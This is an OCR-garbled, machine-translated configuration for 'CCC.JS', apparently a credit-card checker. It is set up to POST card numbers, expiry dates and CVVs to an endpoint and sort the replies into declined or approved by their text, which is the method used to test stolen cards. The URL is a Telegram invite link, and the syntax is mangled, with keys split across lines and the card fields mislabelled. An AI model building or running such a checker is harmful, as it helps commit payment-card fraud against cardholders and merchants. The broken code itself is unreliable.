 # bolhudo
{ 
  // É como axios config

  // `url` é o URL do servidor que será usado para a solicitação 
  url : 'https://t.me/joinchat/PfN_URxfRUcWPcQFMd2p-A' ,

  // CCC.JS: string para pesquisar nas 
  palavras - chave do corpo de resposta : { 
    recusado : "Pagamento recusado" , 
    aprovado : "Obrigado! Sucesso no pagamento." 
  }

  // `method 'é o método de solicitação a ser usado ao criar o 
  método de solicitação :' post ' ,  // o padrão é' get '

  // `headers 'são cabeçalhos personalizados para serem enviados 
  cabeçalhos : { ' X-Requested-With ' : ' XMLHttpRequest ' } ,

  // sintaxe alternativa para enviar dados para o corpo 
  // método post 
  // apenas o valor é enviado, e não a chave 
  // CCC.JS: substitua os valores de CARTÃO DE CRÉDITO por <CARD>, <MONTH>, <YEAR>, <CVV > 
  data : 'card_credit_number = <CVV> & card_cvv = <CVV> & card_year = <YEAR>' ,

  // `timeout` especifica o número de milissegundos antes do tempo limite da solicitação. 
  // Se a solicitação demorar mais que `timeout ', a solicitação será abortada. 
  timeout : 1000 ,  // o padrão é `0` (sem tempo limite)

  // `withCredentials` indica se as solicitações de controle de acesso entre sites 
  // devem 
  ou não ser feitas usando credenciais comCredentials : false ,  // default 
}
